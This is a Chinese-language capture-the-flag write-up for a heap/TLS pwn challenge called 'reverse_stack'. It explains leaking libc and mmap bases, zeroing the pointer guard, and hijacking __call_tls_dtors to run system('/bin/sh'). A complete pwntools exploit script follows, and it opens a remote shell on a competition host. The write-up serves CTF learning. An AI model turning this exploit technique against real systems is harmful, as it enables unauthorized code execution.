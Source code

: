 # reverse_stack

> make it happen!!!!!

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.8|

## 解题思路

程序自己实现了一个正向增长的栈（向高地址增长），栈的上方是tls。

首先第一次`LeaveNote`在tls下方泄露libcBase，然后往上把tls的`fs:[0x30]`覆盖成0，这样方便做`PTR_MANGLE`。
然后blue pill第二次`LeaveNote`借之前的痕迹泄露mmapBase，计算tls的位置，打`__call_tls_dtors`。
此时在`tls-0x58`的位置放一个指针，指向`PTR_MANGLE`过的`system`，设置它的参数为`"/bin/sh"`，
这样程序退出时就会自动执行这个"destructor"，打开shell。

由于比赛的时候断网，因此无法自动下载libc的调试符号，讲起来有点怪怪的。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './revstack'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b __call_tls_dtors')
    else:
        sh = remote('10.1.101.104', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')

    def leave_note(length: int, content: bytes, loop: bool) -> bytes:
        sh.sendafter(b'long', p64(length))
        sh.sendafter(b'your buf\n', content)
        recv = sh.recvuntil(b'red pill', True)
        sh.send(b'red' if loop else p64(0))
        return recv

    # 1st LeaveNote
    leave_note(0x20660, b'1', True)
    libcBase = u64(leave_note(0xc0, b'2', True)[0x20:0x28]) - libc.symbols['_res']
    success(GOLD_TEXT(f"Leak libcBase: {libcBase:#x}"))
    libc.address = libcBase
    leave_note(0x100, p64(0), False) # set fs:[0x30] to 0

    # 2nd LeaveNote
    leave_note(0x20630, p64(0), True)
    mmapBase = u64(leave_note(0x60, p64(0), True)[0x20:0x28]) - 8
    success(GOLD_TEXT(f"Leak mmapBase: {mmapBase:#x}"))
    struct = flat({
        0:      mmapBase + 0x206f0, # points to system
        8:      rol(libc.symbols['system'], 17, 64), # PTR_MANGLE
        0x10:   mmapBase + 0x20700, # rdi of system, points to '/bin/sh'
        0x18:   b'/bin/sh'
        }, filler=b'\0')
    leave_note(0x40, struct, False)

    sh.clean()
    sh.interactive()
    sh.close()
```

![flag](assets/revstack.png)

